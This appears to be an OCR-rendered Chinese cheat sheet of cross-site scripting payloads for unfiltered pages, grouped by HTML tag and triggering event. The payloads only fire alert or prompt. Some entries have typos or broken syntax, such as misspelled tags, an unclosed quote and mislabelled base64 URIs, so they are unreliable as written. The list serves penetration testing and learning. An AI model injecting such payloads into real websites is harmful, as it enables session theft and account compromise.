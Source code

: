 # XSS常见的触发标签

## 无过滤情况

**`<script>`**

> `<scirpt>alert("xss");</script>`



**`<img>`**

> 
图片加载错误时触发<br/> `<img src="x" onerror=alert(1)>`<br/> `<img src="1" onerror=eval("alert('xss')")>`<br/> 鼠标指针移动到元素时触发<br/> `<img src=1 onmouseover="alert(1)">`<br/> 鼠标指针移出时触发<br/> `<img src=1 onmouseout="alert(1)">`



**`<a>`**

> 
`<a href="https://www.qq.com">qq</a>`<br/> `<a href=javascript:alert('xss')>test</a>`<br/> `<a href="javascript:a" onmouseover="alert(/xss/)">aa</a>`<br/> `<a href="" onclick=alert('xss')>a</a>`<br/> `<a href="" onclick=eval(alert('xss'))>aa</a>`<br/> `<a href=kycg.asp?ttt=1000 onmouseover=prompt('xss') y=2016<aa</a>`



**`<input>`**

> 
`<input onfocus="alert('xss');">`<br/> 竞争焦点，从而触发onblur事件<br/> `<input onblur=alert("xss") autofocus><input autofocus>`<br/> 通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发<br/> `<input onfocus="alert('xss');" autofocus>`<br/> `<input name="name" value="">`<br/> `<input value="" onclick=alert('xss') type="text">`<br/> `<input name="name" value="" onmouseover=prompt('xss') bad="">`<br/> `<input name="name" value=""><script<alert('xss')</script>`<br/> 按下按键时触发<br/> `<input type="text" onkeydown="alert(1)">`<br/> 按下按键时触发<br/> `<input type="text" onkeypress="alert(1)">`<br/> 松开按键式时触发<br/> `<input type="text" onkeyup="alert(1)">`



**`<from>`**

> 
`<form action=javascript:alert('xss') method="get">`<br/> `<form action=javascript:alert('xss')>`<br/> `<form method=post action=aa.asp? onmouseover=prompt('xss')>`<br/> `<form method=post action=aa.asp? onmouseover=alert('xss')>`<br/> `<form action=1 onmouseover=alert('xss)>`<br/> `<form method=post action="data:text/html;base64,<script<alert('xss')</script>">`<br/> `<form method=post action="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">`



**`<iframe>`**

> 
`<iframe onload=alert("xss");></iframe>`<br/> `<iframe src=javascript:alert('xss')></iframe>`<br/> `<iframe src="data:text/html,&amp;lt;script&amp;gt;alert('xss')&amp;lt;/script&amp;gt;"></iframe>`<br/> `<iframe src="data:text/html;base64,<script<alert('xss')</script>">`<br/> `<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">`<br/> `<iframe src="aaa" onmouseover=alert('xss') /><iframe>`<br/> `<iframe src="javascript&amp;colon;prompt&amp;lpar;``xss``&amp;rpar;"></iframe>`(````只有两个``)
